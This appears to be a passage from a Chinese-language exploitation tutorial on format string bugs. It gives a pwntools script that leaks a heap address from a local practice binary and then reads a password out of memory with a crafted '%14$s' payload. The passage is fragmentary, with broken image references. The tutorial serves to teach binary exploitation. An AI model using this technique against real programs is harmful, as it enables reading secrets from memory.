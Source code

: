 ```python
output = p.clean()
print(output.decode("utf-8"))
p.close()
```
并且可以看到，在**尝试14**中，通过使用传递，我们可以控制一个地址：

<figure><img src="broken-reference" alt="" width="563"><figcaption></figcaption></figure>

### 攻击利用
```python
from pwn import *

p = process("./fs-read")

def leak_heap(p):
# At offset 25 there is a heap leak
p.sendlineafter(b"first password:", b"%25$p")
p.recvline()
response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
return int(response, 16)

heap_leak_addr = leak_heap(p)
print(f"Leaked heap: {hex(heap_leak_addr)}")

# Offset calculated from the leaked position to the possition of the pass in memory
password_addr = heap_leak_addr + 0x1f7bc

print(f"Calculated address is: {hex(password_addr)}")

# At offset 14 we can control the addres, so use %s to read the string from that address
payload = f"%14$s|||".encode()
payload += p64(password_addr)

p.sendline(payload)
output = p.clean()
print(output)
p.close()
```
<figure><img src="broken-reference" alt="" width="563"><figcaption></figcaption></figure>

{% hint style="success" %}